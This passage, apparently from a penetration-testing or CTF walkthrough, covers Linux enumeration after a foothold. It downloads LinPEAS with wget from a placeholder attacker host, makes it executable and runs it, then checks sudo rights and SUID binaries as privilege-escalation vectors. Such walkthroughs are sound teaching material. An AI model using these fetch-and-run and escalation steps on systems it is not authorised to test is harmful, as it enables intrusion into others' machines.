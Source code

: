 ### System Enumeration

**LinEnum/LinPEAS Execution:**

```bash
# Transfer enumeration script
wget http://your-ip:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![LinPEAS Results](picture20.png)

### Privilege Escalation Vector Discovery

**Sudo Permissions:**
```bash
sudo -l
```

![Sudo Permissions](picture21.png)

**SUID Binaries:**
```bash
find / -perm -4000 2>/dev/null
```

![SUID Binaries](picture22.png)
